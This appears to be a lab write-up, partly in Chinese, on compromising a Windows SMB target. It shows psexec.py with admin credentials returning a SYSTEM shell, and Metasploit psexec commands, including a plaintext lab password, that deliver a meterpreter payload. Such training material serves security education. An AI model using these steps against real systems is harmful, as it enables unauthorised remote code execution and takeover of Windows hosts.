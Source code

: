 We can utilize these credentials in order to authenticate with the target system via PsExec.

The PsExec utility is a Windows utility portable or executable. However, we cant execute executable on the Linux system. This is a script called `psexec.py`. That is python implementation of psexec utility and it allows us to authenticate with target system.

`cmd.exe`: Provide the executable or command we would like to execute. In this case, we want to run a command prompt or command shell session on the target. we will execute the cmd.exe.

```
psexec.py Administrator@10.2.24.221 cmd.exe
Password:

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

If we want to extend the attack to meterpreter session:

This is a psexec module that works on smb or utilize smb, what this module will do is authenticate to the target system via smb through psexec it then upload a meterpreter payload and execute it that provide us with meterpreter session. The fact this wouldn't running a malicious file on the target, anti-virus solution installed on the target could detect it.

[Microsoft Windows Authenticated User Code Execution](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/)

Microsoft Windows 认证用户代码执行

该模块使用有效的管理员用户名和密码（或密码哈希）来执行任意有效负载。该模块类似于 SysInternals 提供的“psexec”实用程序。该模块现在能够自行清理。此工具创建的服务使用随机选择的名称和描述。

```
msf5 auxiliary(scanner/smb/smb_login) > search psexec
msf5 auxiliary(scanner/smb/smb_login) > use exploit/windows/smb/psexec
msf5 auxiliary(scanner/smb/smb_login) > show options
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.2.24.221
msf5 auxiliary(scanner/smb/smb_login) > set SMBUser Administrator
msf5 auxiliary(scanner/smb/smb_login) > set SMBPass qwertyuiop
msf5 auxiliary(scanner/smb/smb_login) > exploit

meterpreter > sysinfo
meterpreter > getuid
```

# Windows: SMB Server PSexec（Windows：SMB 服务器 Psexec）
## 概述
Kali GUI 机器和运行易受攻击的 SMB 服务的目标机器提供给您。目标机器的 IP 地址在 Kali 机器桌面 (/root/Desktop/target) 上名为 target 的文本文件中提供。 
您的任务是使用 Kali 机器上可用的工具对 SMB 服务进行指纹识别，然后使用 Metasploit 框架利用该漏洞。您需要找到有效的凭据才能访问 SMB 服务并使用可用的 SMB Metasploit 漏洞利用模块滥用该服务。
